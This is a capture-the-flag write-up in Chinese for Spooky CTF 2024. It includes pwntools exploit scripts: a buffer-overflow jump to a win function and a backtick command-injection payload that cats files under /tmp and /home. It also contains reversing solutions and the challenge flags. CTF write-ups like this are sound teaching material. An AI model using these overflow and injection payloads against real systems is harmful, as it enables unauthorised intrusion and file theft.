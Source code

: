 # Spooky CTF 2024

## the-gates-are-closed

在function列表裡面可以看到隱藏的function，使用base64解碼得到flag

![img](./imgs/1.png)

## what-file

一樣在function列表裡面可以看到奇怪的函數

![img](./imgs/2-1.png)

![img](./imgs/2-2.png)

把裡面的字串都r出來之後再反轉就得到flag

```python
#!/usr/bin/env python

flag=['IN', 'CC', '{', 'hu', 'H', '@lf_', 'g', 'i_', 'IhT_', 'kn', '}']

ans=""
for f in flag:
    ans+=f[::-1]

print(ans)
#NICC{uhH_fl@g_i_ThInk}
```

## freezingprogram

看起來像是某種組合語言的變體，看了一下之後發現會在`start`裡面呼叫`main`

接著會做字串拼接，然後output

把裡面跟string有關的語句抓出來就可以拼出flag

```python
#!/usr/bin/env python

f=open("./freezingprogram.txt", "r")
ans=""
for x in f.readlines() :
    if("string" in x) :
        if("holds" in x) :
            ans+=x.split()[3].replace('"', "")

print(ans)
#NICC{hEy_th1s-is_Co0L}
```

## boofer

在main裡面有gets導致overflow，而且沒有canary

![img](./imgs/3-1.png)

而且程式有後門函數，直接跳上去就會得到flag

![img](./imgs/3-2.png)

```python
#!/usr/bin/env python
from pwn import *

context.log_level='critical'
context.arch='amd64'

host='b00fer.niccgetsspooky.xyz'
port=9001
epath='./boofer'

#r=process(epath)
r=remote(host, port)
e=ELF(epath)

payload = flat(cyclic(0x28), e.sym.win)
r.sendline(payload)

r.interactive()
r.close()

#NICC{Sp00ked_the_fl4g_0ut_of_m3}
```

## House of horrors

`handle_client`在處理input的時候使用shell來處理，可以用來做command injection

(`converse`裡面的有做檢查，只有`handle_client`這邊可以)

![img](./imgs/4-1.png)

接著就是要想辦法讀flag，`shuffle_it`會把flag搬到一個隨機的位置

不過隨機的位置是在一個指定的範圍裏面:

![img](./imgs/4-2.png)

因為沒有限制長度，直接把所有可能的位置都讀一遍

```python
#!/usr/bin/env python
from pwn import *
import base64

context.log_level="debug"

host="loabshouse.niccgetsspooky.xyz"
port=1337

r=remote(host, port)

r.recvuntil(b"Who dares enter my realm: ")
payload=b"`cat /tmp/singularity; cat /tmp/abyss; cat /tmp/orphans; cat /home/council; cat /tmp/.boom; "
payload+=b"cat /home/victim/.consortium; cat /usr/bnc/.yummyarbs; cat /tmp/.loab; cat /tmp/loab`"
r.sendline(payload)
r.recvline()
r.recvline()
flag=base64.b64decode(r.recvline())
print(str(flag))

r.close()
#NICC{Ju5t_pu7_l0@b_1n_rc3_or_h311_i_gu3ss}
```

## Mary Morse

這題直接用stegbrute

```
NICC{tHe_whIspeRz_iN_Th3_aiR}
```
